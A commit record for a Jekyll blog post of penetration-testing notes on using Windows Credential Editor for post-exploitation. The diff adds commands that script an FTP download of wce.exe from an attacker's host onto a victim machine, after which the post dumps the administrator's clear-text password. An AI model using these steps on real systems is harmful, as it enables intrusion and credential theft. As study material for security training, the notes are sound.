

Before and after one commit to dmittakarin8/dmittakarin8.github.io, a Jekyll site: the page built from _posts/2015-06-06-Using-WCE-to-dump-clear-text-passwords.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; before the commit the page ends 993 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Updated 2015-06-06-Using-WCE-to-dump-clear-text-passwords.md

```diff
--- a/_posts/2015-06-06-Using-WCE-to-dump-clear-text-passwords.md
+++ b/_posts/2015-06-06-Using-WCE-to-dump-clear-text-passwords.md
@@ -3,6 +3,7 @@ published: true
 layout: post
 title: WCE post exploitation
 ---
+
 
 
 
@@ -12,7 +13,13 @@ Download wce
     wget http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip
     unzip wce_v1_41beta_universal.zip -d wce
 
-Upload wce.exe to victim
+**Victim**:  With ftp server running on attacking box.  Upload wce.exe to victim
+    echo open 192.168.30.36> ftp.txt
+    echo your_username>> ftp.txt
+    echo your_password>> ftp.txt
+    echo binary>> ftp.txt
+    echo get wce.exe>> ftp.txt
+    echo bye>> ftp.txt
 
 **Victim**:  Execute wce.  Administrator password displayed in the clear.  (real password masked just in case any potential oscp students are actually reading this)
 
```
